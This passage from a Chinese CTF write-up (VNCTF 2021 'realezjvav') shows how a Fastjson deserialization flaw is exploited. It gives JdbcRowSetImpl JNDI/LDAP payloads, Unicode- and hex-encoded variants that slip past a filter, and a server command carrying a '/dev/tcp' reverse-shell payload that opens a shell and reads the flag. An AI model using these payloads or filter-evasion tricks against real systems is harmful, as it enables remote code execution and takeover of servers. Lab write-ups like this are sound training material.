 接下来利用修改传入参数运行exp

```
param={"name":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"x":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://ip:1389/Exploit","autoCommit":true}}}
```

但是会被过滤

![[VNCTF 2021]realezjvav](9-1615858492.png)



Unicode编码一下

```
{"name":{"\u0040\u0074\u0079\u0070\u0065":"java.lang.Class","val":"\u0063\u006f\u006d\u002e\u0073\u0075\u006e\u002e\u0072\u006f\u0077\u0073\u0065\u0074\u002e\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c"},"x":{"\u0040\u0074\u0079\u0070\u0065":"\u0063\u006f\u006d\u002e\u0073\u0075\u006e\u002e\u0072\u006f\u0077\u0073\u0065\u0074\u002e\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c","dataSourceName":"ldap://ip:port/Exploit","\u0061\u0075\u0074\u006f\u0043\u006f\u006d\u006d\u0069\u0074":true}}}
```

或者

```
roleJson={"name":{"x40x74x79x70x65":"java.lang.Class","val":"x63x6fx6dx2ex73x75x6ex2ex72x6fx77x73x65x74x2ex4ax64x62x63x52x6fx77x53x65x74x49x6dx70x6c"},"x":{"x40x74x79x70x65":"x63x6fx6dx2ex73x75x6ex2ex72x6fx77x73x65x74x2ex4ax64x62x63x52x6fx77x53x65x74x49x6dx70x6c","dataSourceName":"ldap://1.1.1.1:1389/Exploit","x61x75x74x6fx43x6fx6dx6dx69x74":true}}
```

要把ipport改成运行ldap服务的端口



LDAP将会把请求Redirect到Web服务，Fastjson将会下载Exploit.class，并解析运行（所以ldap运行要填写web服务端口）

你的LDAP服务和Web服务都会收到请求记录，如果没有问题，你的nc也会收到反弹回来的SHELL（所以exploit要填写监听shell端口）



最后cat /flag*

![image-20210324165555579](image-20210324165555579.png)



参考链接

sql注入总结

https://blog.csdn.net/ga421739102/article/details/102817334

fastjson利用

https://github.com/CaijiOrz/fastjson-1.2.47-RCE

wp

https://blog.csdn.net/SopRomeo/article/details/114945759

### 快速fastjson

https://github.com/mbechler/marshalsec

只需要在服务器上

```
java -cp fastjson_tool.jar fastjson.HRMIServer 0.0.0.0 9999 "bash=bash -i >&/dev/tcp/x.x.x.x/8765 0>&1"
```

